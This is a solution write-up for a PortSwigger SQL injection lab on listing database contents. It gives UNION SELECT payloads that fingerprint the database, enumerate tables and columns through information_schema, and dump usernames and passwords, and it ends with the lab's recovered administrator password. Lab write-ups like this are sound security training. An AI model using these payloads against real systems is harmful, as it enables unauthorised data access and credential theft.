


## LAB 7: SQL injection attack, listing the database contents on non-Oracle databases
[SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oraclet)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Solution

1. Figure out the database type
2. Figure out the names of other tables in the database
3. Fetch the usernames and passwords from one of the tables
4. Login as administrator

### 1. Figure out the database type
We need to figure out the database type before we can attempt to extract any database information.

Try the following which ever returns the version
`'+UNION+SELECT+version,NULL+FROM+v$instance--` - Oracle
`'+UNION+SELECT+@@version,NULL--` - MySQL / Microsoft
`'+UNION+SELECT+version(),NULL--` - PostgreSQL 

The database is a PostgresSQL database.

### 2. Figure out the names of other tables in the database
From the previous labs we know the current table contains two columns and both of them varchar/string. We can use the following query to list all the tables in the database. `SELECT * FROM all_tables`. As per [PostgresSQL documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html) the `information_schema.tables` table has a column named `table_name`. Running the following query should return the names of all the tables in the database.

`' UNION SELECT table_name,NULL FROM information_schema.tables--`  

Using `Find` to find all table with the keyword user in the page and found a table named `users_fccjyb` which seems to be the table. 

### 3. Fetch the usernames and passwords from one of the tables
Fetching the columns in the `users_fccjyb` table.
`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_fccjyb'--`

There are two columns in the table `username_mscjnd` & `password_endqgl`. Lets fetch the usernames & password from the table.
`' UNION SELECT username_mscjnd,password_endqgl FROM users_fccjyb--`

### 4. Login as administrator
Logging in as `administrator` with the password `9t7l9xo6oya5x92n15xa`.

<!-- EOF -->